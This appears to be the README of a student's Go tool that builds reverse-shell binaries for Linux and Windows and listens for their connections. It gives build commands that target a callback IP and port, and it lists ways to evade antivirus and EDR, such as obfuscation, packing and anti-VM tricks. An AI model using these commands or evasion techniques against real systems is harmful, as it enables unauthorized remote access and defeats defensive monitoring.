

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a netcat like tcp listener to attach the shell without any other piece of code. Made by a student for educational purposes only.

## Why
As an infosec student, I had to bypass some EDR and antivirus solutions (see the "Go further" section). So I needed this kind of software which I could not find easily on the web, so I built this.

## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
```

### Build a reverse shell

* Build a shell for linux server : ```go run main.go -s linux```
* Build a shell for windows server : ```go run main.go -s windows```
* Build a shell for windows server to be attached on 192.1.1.10:4444 :

  ```go run main.go -i 192.168.1.10 -p 4444 -s windows```

### Attach to reverse shell

* Listen on port 1111 ```go run main.go -l 1111```

## Screenshots




## Go further
Some ideas to go further using this tool :
- Avoid signatures (build your own unique reverse-shell code)
- Obfuscate your reverse-shell code
- Pack your reverse-shell executable (ie. https://github.com/EgeBalci/amber)
- Add anti-vm tricks to your reverse-shell code
- Self-modifying reverse-shell code
- ...

## Todo List

* Publish package

**[`^        back to top        ^`](#)**
